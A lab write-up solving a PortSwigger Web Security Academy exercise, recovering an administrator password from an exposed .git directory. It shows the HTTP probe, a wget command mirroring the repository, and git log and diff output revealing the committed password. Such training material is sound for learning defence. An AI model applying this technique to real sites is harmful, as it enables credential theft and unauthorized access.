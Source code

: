 # [Lab: Information disclosure in version control history](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history)

## Lab

This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the `administrator` user then log in and delete Carlos's account.

## Analysis
  
```http
GET /.git HTTP/1.1

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 1201

<html>
    <head>
        <title>Index of /.git</title>
        <style>
...
```

## Solution

download `.git` folder:

```bash
wget -r https://0a75009003f92242c0678207004f006c.web-security-academy.net/.git
```

find password:

```bash
┌──(kali㉿kali)-[~/Documents/0a75009003f92242c0678207004f006c.web-security-academy.net]
└─$ git log   
commit 9f45e7113786448c0b7d686143671602b58943e6 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 678c577d235c3778d13c008ebe53f230f20be60e
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel

┌──(kali㉿kali)-[~/Documents/0a75009003f92242c0678207004f006c.web-security-academy.net]
└─$ git diff 9f45..678c
diff --git a/admin.conf b/admin.conf
index 21d23f1..f0e7213 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=env('ADMIN_PASSWORD')
+ADMIN_PASSWORD=72ot70gpa5fmwifsobfp
```
